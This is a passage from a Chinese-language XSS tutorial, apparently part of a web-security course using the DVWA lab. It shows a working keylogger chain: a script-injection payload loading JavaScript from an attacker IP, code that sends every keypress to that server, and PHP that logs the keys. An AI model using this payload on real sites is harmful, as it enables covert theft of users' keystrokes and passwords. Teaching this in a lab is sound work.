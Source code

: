 <p>可以看到，<strong>我们已经收到这个GET请求了，它的cookie值也被我们接收到了</strong>。</p>

<p>到这里，你已经学习了用XSS攻击来盗取cookie的用法。接下来，让我们来学习如何用XSS攻击实现按键记录以及钓鱼。</p>

<h3 id="按键记录和钓鱼">按键记录和钓鱼</h3>

<p>首先我们来看看如何实现按键记录。</p>

<p>我们仍然选择DVWA的XSS(DOM)靶场做测试，只需要更换payload即可，将payload设置为：</p>

<pre><code class="language-javascript">&lt;script src=http://192.168.3.193/keylogger.js&gt;&lt;/script&gt;
</code></pre>

<p>这段代码可以去调用远程地址中的JavaScript文件，使得keylogger.js中的代码被执行。这里的keylogger.js的内容为：</p>

<pre><code class="language-javascript">document.onkeypress = function(evt) {
    evt = evt || window.event;
    key = String.fromCharCode(evt.charCode);
    if(key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open(&quot;POST&quot;,&quot;http://192.168.3.193/keylogger.php&quot;,true);
        http.setRequestHeader(&quot;Content-type&quot;,&quot;application/x-www-form-urlencoded&quot;);
        http.send(&quot;key=&quot;+param);
    }
}
</code></pre>

<p>它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过POST方式上传到攻击者用来存储按键记录的服务器上。其中keylogger.php的代码为：</p>

<pre><code class="language-php">&lt;?php
  $key=$_POST['key'];
  $logfile=&quot;keylog.txt&quot;;
  $fp = fopen($logfile,&quot;a&quot;);
  fwrite($fp,$key);
  fclose($fp);
?&gt;
</code></pre>

<p>它可以将接收到的key记录到keylog.txt文件中，<strong>这样就能实现按键记录的功能了</strong>。</p>

<p>我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在keylog.txt中。</p>

<p><img src="assets/7d9e953c63e64a22b14defef672b214a.jpg" alt="" /></p>
